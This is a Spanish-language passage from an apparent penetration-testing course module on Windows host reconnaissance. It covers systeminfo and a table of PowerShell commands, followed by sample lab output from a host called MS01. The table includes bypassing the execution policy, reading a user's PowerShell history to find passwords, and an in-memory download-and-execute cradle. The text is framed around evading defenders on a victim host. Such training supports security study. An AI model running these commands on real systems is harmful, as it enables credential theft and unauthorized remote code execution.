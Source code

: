 ### Systeminfo

![image](https://academy.hackthebox.com/storage/modules/143/systeminfo.png)

El comando `systeminfo`, como se ve arriba, imprimirá un resumen de la información del host para nosotros en una salida ordenada. Ejecutar un comando generará menos registros, lo que significa menos posibilidades de ser notados en el host por un defensor.

---

## Harnessing PowerShell

PowerShell ha existido desde 2006 y proporciona a los administradores de sistemas de Windows un extenso marco para administrar todos los aspectos de los sistemas Windows y los entornos AD. Es un poderoso lenguaje de scripting y se puede usar para profundizar en los sistemas. PowerShell tiene muchas funciones y módulos integrados que podemos usar en un compromiso para reconocer el host y la red y enviar y recibir archivos.

Veamos algunas de las formas en que PowerShell puede ayudarnos.

|**Cmd-Let**|**Description**|
|---|---|
|`Get-Module`|Lista los módulos disponibles cargados para su uso.|
|`Get-ExecutionPolicy -List`|Imprimirá la configuración de la [política de ejecución](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) para cada ámbito en un host.|
|`Set-ExecutionPolicy Bypass -Scope Process`|Esto cambiará la política para nuestro proceso actual usando el parámetro `-Scope`. Hacer esto revertirá la política una vez que abandonemos el proceso o lo terminemos. Esto es ideal porque no haremos un cambio permanente en el host víctima.|
|`Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`|Con este comando, podemos obtener el historial de PowerShell del usuario especificado. Esto puede ser bastante útil ya que el historial de comandos puede contener contraseñas o apuntarnos hacia archivos de configuración o scripts que contienen contraseñas.|
|`Get-ChildItem Env: \| ft Key,Value`|Devuelve valores de entorno como rutas clave, usuarios, información del equipo, etc.|
|`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"`|Esta es una forma rápida y fácil de descargar un archivo de la web usando PowerShell y llamarlo desde la memoria.|

Veamoslos en acción ahora en el host `MS01`.

### Quick Checks Using PowerShell

```r
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned


PS C:\htb> whoami
nt authority\system

PS C:\htb> Get-ChildItem Env: | ft key,value
```